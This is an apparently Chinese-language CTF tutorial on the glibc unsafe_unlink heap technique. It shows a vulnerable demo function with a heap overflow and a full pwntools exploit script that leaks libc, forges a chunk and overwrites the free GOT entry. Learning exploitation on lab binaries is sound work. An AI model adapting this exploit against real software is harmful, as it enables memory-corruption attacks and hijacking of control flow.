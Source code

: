 # unsafe_unlink
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>unsafe_unlink常常作为pwn入门的第一课，完成攻击时可以在任意地址进行一次改写，经常以改写got表实现劫持流程；[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/)，[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/unsafe_unlink.c)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在这里粘贴上我认为比较好的三篇资料（首先理解glibc的内存管理）：[堆溢出之unlink的利用](http://yunnigu.dropsec.xyz/2017/04/05/%E5%A0%86%E6%BA%A2%E5%87%BA%E4%B9%8Bunlink%E7%9A%84%E5%88%A9%E7%94%A8/)，[堆溢出的unlink利用](http://papap.info/2016/08/01/%E5%A0%86%E6%BA%A2%E5%87%BA%E7%9A%84unlink%E5%88%A9%E7%94%A8/)，[unlink漏洞的原理和利用](http://wonderkun.cc/index.html/?p=651)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>demo程序是一个非常简单的漏洞礼包，在这里用unsafe_unlink实现一次改写got表：</font></br>

```C
ssize_t set()
{
  int index; // [esp+Ch] [ebp-Ch]

  index = -1;
  write(1, "Set chunk index:", 0x10u);
  __isoc99_scanf("%d", &index);
  if ( index < 0 )
    return write(1, "Set chunk data error!\n", 0x16u);
  write(1, "Set chunk data:", 0xFu);
  return read(0, buf[index], 0x400u);
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>填写堆块内容的时候默认过大，可以溢出至下一个堆块，因此在堆块中伪造堆块后，free下一个堆块即可利用unlink改写任意地址：</font></br>

```python
from pwn import *

p=process('./unlink')
elf=ELF('./unlink')

context.log_level='debug'
#gdb.attach(p)

n=2
chunk_addr=0x8049D60+4*n

def rv(s):
  p.recvuntil(s)

def sd(s):
  p.sendline(s)

def add(size):
  rv('Exit\n')
  sd('1')
  rv('add:')
  sd(str(size))

def setc(index,content):
  rv('Exit\n')
  sd('2')
  rv('index:')
  sd(str(index))
  rv('data:')
  p.send(content)

def dele(index):
  rv('Exit\n')
  sd('3')
  rv('index:')
  sd(str(index))

def show(index):
  rv('Exit\n')
  sd('4')
  rv('index:')
  sd(str(index))

add(0x100)
add(0x100)

dele(0)
show(0)

libc_base=u32(p.recvline()[0:4])-0x1b27b0

log.info(hex(libc_base))

dele(1)

#clear------------------------------------------- 
#start with index 2

add(0x100)
add(0x100)
add(0x100)

payload=p32(0)+p32(0)
payload+=p32(chunk_addr-12)+p32(chunk_addr-8)
payload+=(0x100-len(payload))*'a'
payload+=p32(0x100)+p32(0x108)

setc(2,payload)

dele(3)

setc(2,'a'*12+p32(elf.got['free']))
setc(2,'aaaa')

dele(3)

p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>运行完之后查看core文件可以看到got表改写成功：</font></br>

![unlink](../../screenshot/unlink/unlink.png)